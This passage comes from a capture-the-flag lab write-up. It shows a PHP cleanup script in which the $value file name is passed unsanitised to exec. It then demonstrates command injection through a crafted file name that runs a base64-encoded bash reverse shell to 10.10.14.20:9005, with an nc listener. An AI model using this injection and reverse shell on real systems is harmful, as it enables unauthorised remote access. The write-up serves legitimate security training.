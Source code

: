 Q7: In the check_attack.php script, there is one variable that can be controlled by us and is used in the call of a dangerous function. What is that variable name (including the leading $)?
- the script scans for each file in the $path directory, if a malicious file is found then it will log the event and remove the file
- after investigating the php script, the second `exec` is vulnerable due to lack to input sanitation 
```
bash-4.2$ cat check_attack.php
cat check_attack.php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>

```

Q8: Submit the flag located in the guly user's home directory.
- since we know that the filename can be used to inject malicious commands, we will need to create a file that allows us to exploit that vulnerability
- tried various methods using `touch`, `printf` command however no luck
- need to hash the malicious command first and wrap it in unhash so the command will be unhashed and executed at run time
```
## on attacker machine
$: echo -n 'bash -c "bash -i >/dev/tcp/10.10.14.20/9005 0>&1"' | base64 
YmFzaCAtYyAiYmFzaCAtaSA+L2Rldi90Y3AvMTAuMTAuMTQuMjAvOTAwNSAwPiYxIg==
$: nc -lvnp 9005

## on target, /var/www/html/uploads
bash-4.2$ touch ';echo YmFzaCAtYyAiYmFzaCAtaSA+L2Rldi90Y3AvMTAuMTAuMTQuMjAvOTAwNSAwPiYxIg== | base64 -d | bash'

## wait for 3 minutes to receive the shell 
$ nc -lnvp 9005
```
